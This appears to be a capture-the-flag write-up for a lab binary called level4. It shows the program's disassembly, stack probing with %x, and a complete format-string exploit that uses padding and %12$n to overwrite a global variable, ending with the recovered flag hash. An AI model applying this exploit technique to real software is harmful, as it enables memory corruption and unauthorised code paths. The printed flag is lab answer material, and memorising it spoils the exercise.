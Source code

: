 ## level4
The `level4` is almost the same as `level3`, a very basic main that call a function called `n()` and returns
```
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave
0x080484b3 <+12>:	ret
```
We will be usding the same strategy from `level3` __*format string exploit*__, bear in mind that this time we will need to set a variable to a very higher value, in `level3` was just *64* while in `level4` the value is `0x1025544 (16930116)` so we will need to modify a bit our strategy, but if I remember well when I coded my own version of `printf()` *(I would have never imagined this project would help me in this way :p)* the `printf()` function has an option for `padding` and that's what we're  gonna use here to generate those extra `16930112` characters *(Yeah I'm not kidding)*, let's start to find the __offset__ for our __address__
```
~$ echo "AAAA %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708
~$ echo "AAAA %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 41414141
```
A little bit harder but we could find it, checking the position we know our __address__ is being set on the stack at postion 12th so we get it done `%12\$n` and the address we have it from the disassembled code<br>
`x0804848d <+54>:	mov    eax,ds:0x8049810`<br> Now we just need to build the *format string specifier*. <br>
`(python -c "print('\x10\x98\x04\x08' + 'A' + '%16930111c' + '%12\$n')"; cat -) | ./level4` <br>
[...]<br>
after some 16930111 space later<br>
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

